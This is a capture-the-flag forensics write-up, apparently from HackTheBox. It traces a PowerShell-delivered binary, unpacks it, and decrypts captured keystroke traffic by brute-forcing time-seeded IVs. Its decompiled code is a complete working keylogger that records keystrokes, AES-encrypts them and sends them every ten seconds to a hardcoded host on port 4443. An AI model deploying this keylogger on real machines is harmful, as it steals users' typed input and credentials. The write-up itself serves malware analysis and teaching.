



# time is of the essence

We were given a memory snapshot and a traffic dump.

Looking up the traffic we can see a powershell script downloaded and executed, the script downloads another binary cbtws.exe. We can extract the binary using wireshark:



Next, we dump the string from the binary and see that it is a python script probably packed with Pyinstaller.



Try to extract the script using Python 3.7 and https://github.com/extremecoders-re/pyinstxtractor.



Now we use uncompyle6 on keylog.pyc file

```python
# uncompyle6 version 3.7.4
# Python bytecode 3.7 (3394)
# Decompiled from: Python 3.9.1 (default, Jan 20 2021, 00:00:00) 
# [GCC 10.2.1 20201125 (Red Hat 10.2.1-9)]
# Embedded file name: keylog.py
from pynput.keyboard import Listener
from datetime import datetime
from Crypto.Cipher import AES
import threading, socket, random
text = ''

def gen_key() -> str:
    key = ''
    sed = int(datetime.now().strftime('%H%M%S'))
    random.seed(sed)
    for i in range(16):
        char = random.randint(32, 127)
        key += chr(char)

    return key

def aes_enc(text: bytes) -> bytes:
    key = 'oW7P0lH8aroxDKqn'
    iv = gen_key()
    cipher = AES.new(key.encode('utf-8'), AES.MODE_CFB, iv.encode('utf-8'))
    return cipher.encrypt(text)

def send(text: str) -> None:
    HOST = '192.168.1.9'
    PORT = 4443
    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as (s):
        s.connect((HOST, PORT))
        s.sendall(aes_enc(text.encode('utf-8')))

def report() -> None:
    global text
    if text != '':
        send(text)
    text = ''
    timer = threading.Timer(10, report)
    timer.start()

def keystrokes(key: str) -> None:
    global text
    key = str(key).replace("'", '')
    text += key + ' '

def main() -> None:
    with Listener(on_press=keystrokes) as (log):
        report()
        log.join()

if __name__ == '__main__':
    main()
# okay decompiling keylog.pyc
```
We can see that each packet is encrypted with AES-CFB using key 'oW7P0lH8aroxDKqn' and random IV seeded with current time (ex. 125608). So we can easily bruteforce 86400 IVs to decrypt encrypted packets. For checking if IV matches we assume that the first decrypted block should contain only printable characters.

POC:
```python
from itertools import product
import random
import string
from Crypto.Cipher import AES

to_decode = [
    "cbb63ce8f39237af0a6e91dd305a6ae92e796394a82803eac03a3b309a3f72be0a2560d35fa10a8d5d2c9ce739f16c081922fcf78d892c03fd2a6e8e2f22e05ad0317a903263675ca1f3f4a55505bd9bb4fd0fc0dbb709863f93ef4b32c0b64d3fe74e3c946a965914b7493c7dab1d8d6cc8e9affaceed3325ee22d6aa48fd4a383564019da8e36848e1f8f9f6b262439fa84d35be7b39d2d1e7f3ed33e5",
    "dfa3002df354f2f39e4bbd443896287985deda9e130a20380abb4dda65783e2808abc0f7b0f4379eb0d39e1b5e6e2de1624fe5b5434ff149a22424e04ae6a0a618ad0845c80a107548c959c94e6093a301c8ff380407782b966e318108bddc3b5c757cbebee8a63b8c9d34b7a444e97e3c245f799f9ef2106fefbca97df17495a856e1789ba1ffe01073d4a97b45ba81e0e1",
    "f8a186d5d44f89ab7e756c02a43121a9cded62fd482b3ff305ed01526e2116461e81fcb0608278d55dc7387d1ff4ded2c15a6ce760cc9f6a",
    "89f0bc72deff7d0e17906263906be079c0c1c192586c6d03e886b7ab8389ff663972264514f8deff9e42df2f5ba6ffe55e3e1f0696eacf518a1c09c5e57d2d91641cd9ebdee20286e7ee5690651a07da17bf88c111460c7dd8ff381f89a7e1fbf31c6ab8c765a80e6fe4c306fbe3cc70a1ad2586d8052c033832339eb63d8b5ab52ac21d11616bb72a6294a32997937ba78cd19298f9e44e4a5bbca7b9e35c3ecdd8f2f9380f5fc1541103ee98aacd4bfca591df2b093e7f588e",
    "0458a3ef7650173672990be261e3b87fc3a34f5bba43ba2c0871e1e74b917233cddb14c93f193b25be9a366af736821495b9caa20ade6726ecc2b326b9834424a2d38d3e984a5387a09bcca0d137b7b09f4bdc0ab97bb32d0fcd5a6d0b7a3b361888843ea972fb627c894da3bdb3ef0a5499e5001f53a9de7f33075ac45183edce8fa1d0a6d127d9172dd4077fc4a97796dc1bad9aaf7459a3fc4bf7e0d6bcbfad5bcdf16afbb95e3b907cb024a3fc3f9760e0d00a2e7684368a6fd7b124482badcba6acef39795e4bbd12879e2033e7deab4f4e1a3f2295880f88a8940858acebcfd0c89a7111ecf9f6f6107d8a",
    "da004563ef765d50a03e74b917215e4c2c6f8541c8f5e7f6ce5cfba8bc9187c12d82e4b5ca4733e7682c5d292330939a36b80c282aa8bf4a0785610160ce8c74cfcbc342450f69e29c34f4656f7a735cfcd9e5c4",
    "418bee98a4eb864808207b2f6f0fd214f21b1c2c3b8c3b557283956f121e3a86f476d0aaffdb4248ff126baa69a10b17b2c584f1b4a9f679a9ca16f7a2d1",
    "ec24a9573a0802aa59088023265e680e",
    "41ba0541bb62c61be797423ad7bdb296",
    "5aac6ccd5d17d78c7d975fd28041b521",
    "e4f5f582541de0926448f2c5babdf982",
    "7913a359581a25feda2be8e2df1715bb31bc77ac63cfca7c7ad46a30b1a91aba249caaa69995462a0618f4efba876a54903f44172a2611f5a2783436207be454a03ffe1da7b15516b330f32da973be09",
    "ceb23aa330800bb5be8abf080e6a86fb4c85bf1c72f5f30da837a54d429dc00c",
    "0ab0d10d7d7811dfbb06ef27889b5ae8faecf9e56ebd316ffb3a7cf6780ad68643cff8f9",
    "819ecc9fd6eaaa6f957e3f351acc86017d6684999ae36597f8fa",
    "a527d4d23b4569afa05b7f68322084946ce9d0caa8f38f41a449da0b1ec08ed41d1cf7d1028633d66158e41717a83d737caa8d976354ca515d805fbed7285108d0ffbd1a6b30360f1805dcaac5e6ab07494f821e47871be7ef8d6604f7af6e2bd1aaf46aae979ae83ba3049854b53957cc96aca0cd478007b2967dbefc35ed989909838a4180a2c7e041",
    "a870f8524cf132984bbacdbcd0a44d768e5f9a3467effbca4dcb6cab3341957d00131021203cd24a5096f0350522053bac2822146c29eba6",
]

key = 'oW7P0lH8aroxDKqn'.encode("utf-8")

ivs = []

for h, m, s in product(range(24), range(60), range(60)):
    h = str(h).rjust(2, "0")
    m = str(m).rjust(2, "0")
    s = str(s).rjust(2, "0")
    seed = int(h+m+s)
    random.seed(seed)
    iv = ''
    for i in range(16):
        char = random.randint(32, 127)
        iv += chr(char)
    ivs.append(iv.encode("utf-8"))

ivs = list(set(ivs))
print(f"Total {len(ivs)} IVs")

printable_bytes = bytes(string.printable, 'ascii')

for i, ct in enumerate(to_decode):
    print(f"Packet {i}\n{'='*80}")
    for iv in ivs:
        aes = AES.new(key, AES.MODE_CFB, iv)
        dec = aes.decrypt(bytes.fromhex(ct))
        # try:
        #     print(dec.decode("utf-8"))
        # except UnicodeDecodeError:
        #     pass
        if all(char in printable_bytes for char in dec[:16]):
            print(f"Found IV {iv}")
            print(dec)
    print()

# HTB{t3ll_me_@ll_Your_S3cr3ts}
```

Output:
```
Total 86400 IVs
Packet 0
======================================================================
Found IV b'i@O0{Rs`\'S{vM"[r'
b'Key.shift C a n Key.space i Key.space g e t Key.space h a c k e d Key.space b y Key.space c l i c k i n g Key.space a Key.space l i n k Key.shift ? Key.enter '
Packet 1
======================================================================
Found IV b'.LVS$N{4r_yS--U~'
b'Key.shift I s Key.space i t Key.space s a f e w Key.space t Key.backspace Key.backspace Key.backspace Key.space t o Key.space o p e n Key.space a '
Packet 2
======================================================================
Found IV b'e>X9vhJhrrs=n*th'
b'l Key.backspace Key.space l i n k Key.shift ? Key.enter '
Packet 3
======================================================================
Found IV b'\\;]t:EjgnX|a 0V/'
b'Key.shift I s Key.space t h e r e Key.space a Key.space w a y Key.space t o Key.space f i n d Key.space i Key.backspace o u t Key.space i f Key.space i Key.space g o t Key.space h a c k '
Packet 4
======================================================================
Found IV b"panOBeCO8E>'Z%U3"
b'e d Key.shift ? Key.shift Key.shift Key.shift Key.shift Key.shift Key.shift Key.shift Key.shift Key.shift Key.shift Key.shift Key.shift Key.shift Key.shift Key.shift Key.shift Key.shift Key.shift Key.shift Key.shift Key.shift Key.shift I '
Packet 5
======================================================================
Found IV b'E,(zgTgbwTl^OGni'
b'Key.space m i g h t Key.space g o t Key.space h a c k e d Key.enter Key.shift H e l '
Packet 6
======================================================================
Found IV b'm\x7fP{Gi2\\Nd=5|N[)'
b'p Key.space i Key.space g o t Key.space h a c k e d Key.enter '
Packet 7
======================================================================
Found IV b'dX#xcZN}/kA(9C)C'
b'Key.shift H T B '
Packet 8
======================================================================
Found IV b'XsfP*/N~0`{cHDK-'
b'Z\x0cDu\r^72Pps1\x0b[Sy'
Found IV b',E.]&v$R-`T9^F7j'
b'Key.shift { t 3 '
Packet 9
======================================================================
Found IV b'!hN`2<FA,,> MFQ&'
b'l l Key.shift _ '
Packet 10
======================================================================
Found IV b'iir^G8uXhy>R9C~>'
b'm e Key.shift _ '
Packet 11
======================================================================
Found IV b'Dix0cP1r5vT*,Aj)'
b'Key.shift A l l Key.left Key.left Key.backspace Key.shift @ Key.right Key.right '
Packet 12
======================================================================
Found IV b'iQY?V1C*k.@TkK)#'
b'Key.shift _ Y o u r Key.shift _ '
Packet 13
======================================================================
Found IV b"imY'yPofZs5qZ)xe"
b'Key.shift S 3 c r 3 t s Key.shift } '
Packet 14
======================================================================
Found IV b'l1vOs9EWDe\\Et0H|'
b'Key.shift H Key.backspace '
Packet 15
======================================================================
Found IV b'9lhz!#quXlTAMS#5'
b'Key.shift H o w Key.space c a n Key.space i Key.space b u r n Key.space m y Key.space p c Key.space a n d Key.space t h e Key.space m a l '
Packet 16
======================================================================
Found IV b'j;\x7f^]{~ $3uR9l?%'
b'w a r e Key.space w i t h i n Key.space i t Key.shift ? '
```

With that we construct the flag: HTB{t3ll_me_@ll_Your_S3cr3ts}